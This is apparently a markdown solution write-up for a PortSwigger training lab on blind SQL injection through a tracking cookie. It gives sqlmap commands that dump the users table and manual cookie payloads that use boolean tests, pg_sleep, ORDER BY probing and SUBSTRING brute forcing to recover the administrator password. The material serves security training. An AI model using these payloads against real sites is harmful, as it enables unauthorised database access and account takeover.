

# [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## tools

sqlmap:

modify a request in burpsuite proxy and save it to a file (sqlmapr):

```http
GET /filter?category=abc HTTP/1.1
Host: id.web-security-academy.net
Cookie: TrackingId=*;
```

run sqlmap:

- `sqlmap -r sqlmapr -batch`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -dbs`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -D public --tables`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -D public -T users -dump`

## manual

1. Detect SQLi:

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'1'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'2'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

2. Check version: `TrackingId=1wURfC7i7InFbVKD'%3b+SELECT+'a'+FROM+pg_sleep(10)+--;`

3. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

4. Determine the length of admin password using burp's intruder:

    - positions: `TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=§§--;`
    - payloads: 1 -> 30
    - result: 20

5. Determine the password: using SUBSTRING and burp's intruder.

    - attack mode: Cluster bomb
    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
        Cookie: TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,§§,1)='§§'--;
        ```

    - Payloads:
        - Set 1: 1->20
        - Set 2: a->z, A->Z, 1->9
    - result:

        

6. Login to admin account => Lab Solved
